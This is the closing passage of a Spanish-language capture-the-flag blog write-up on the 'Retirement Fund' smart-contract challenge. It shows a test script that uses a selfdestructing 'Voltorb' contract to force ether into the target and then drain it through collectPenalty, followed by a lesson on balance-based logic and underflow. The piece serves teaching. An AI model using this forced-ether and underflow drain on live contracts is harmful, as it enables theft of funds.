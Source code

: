     const balanceDeVoltorb: BigNumber = await ethers.provider.getBalance(voltorbContract.address);
    expect(balanceDeVoltorb.toNumber() > 0, "El balance de voltorb no es superior a 0");

    //Voltorb usa explosión en contrato enemigo --> Es súper efectivo! (we re nerd)
    await voltorbContract.explosion(retirementFundsContract.address)
    //Verificamos que tras el selfdestruct, voltorb haya enviado su balance total al contrato del challenge.
    const balanceChallengeContract: BigNumber = await ethers.provider.getBalance(retirementFundsContract.address);
    expect(balanceChallengeContract > ethers.utils.parseEther("1"));

    
    const tx = await retirementFundsContract.collectPenalty();
    await tx.wait();

    const isComplete = await retirementFundsContract.isComplete();
    expect(isComplete, "DESAFIO INCOMPLETO").to.be.true
  })
})

{% endhighlight %}
<br>

</div>

### Conclusión:
Hay que ser muy cuidadosos a la hora de aplicar lógica basada en el balance de nuestro contrato. Sumado al overflow que se generó al romper la relación entre el balance inicial y el actual, muchos otros vectores de ataque podrían aparecer si no tenemos los recaudos suficientes para recibir ether.
<br>
<br>
<hr>

<div style="text-align:center">
  Y así pasaron los 3 primeros desafíos del bloque <b>Math</b>, o mejor dicho la entrada en calor, ya que los 3 restantes son muchísimo más interesante y divertidos para aprender (y también para explicar).
  <br>
  <br>

  Que tengas una noche genial.
  <br>
  No te alteres.

  <br>
  <br>
  bengalaQ

</div>


<script>
function revelarSeccion(HTMLElement, nombreBoton) {

  if (document.getElementById(nombreBoton).innerHTML == "Ocultar") {
    document.getElementById(nombreBoton).innerHTML = "Revelar";
    HTMLElement.style.display = "none";
  } else {
    document.getElementById(nombreBoton).innerHTML = "Ocultar";
    HTMLElement.style.display = ""
  }
}
</script>